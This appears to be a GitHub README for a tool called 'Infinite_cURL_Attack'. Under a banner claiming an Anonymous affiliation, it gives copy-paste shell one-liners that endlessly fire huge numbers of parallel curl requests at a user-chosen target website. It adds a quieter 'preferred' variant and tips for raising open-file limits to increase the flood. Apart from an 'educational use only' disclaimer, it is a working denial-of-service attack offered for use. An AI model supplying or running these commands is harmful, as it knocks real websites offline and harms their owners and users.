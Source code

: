 <img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack
Infinite cURL Attack

**USAGE** : Copy-Paste-Edit the following code (replace **_https://Your.Target.Website.com_** with your target website) in the Terminal/CMD & press Enter.  

```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -I -i -v -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com"; done;
```  

If you don't want logs in your terminal and make the attacks faster, do this (**the following is my preference**):  

```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -s -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com" > /dev/null; done;
```  

**Note 1:** Reduce the numbers from **1000000000** if your system crashes. It's the number of parallel requests fired at once. Or run the following code before running the above code...  
```
ulimit -n 10000000000
```
What the above code does is explained in **Note 2**.  
**Note 2:** To bypass **open file limit (No file descriptors available)** try out the solutions in  
**https://epi052.github.io/feroxbuster-docs/docs/faq/no-file-descriptors/**  
**https://www.cyberciti.biz/faq/linux-increase-the-maximum-number-of-open-files/**  
**https://discussions.apple.com/thread/2206502**  
etc.  

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
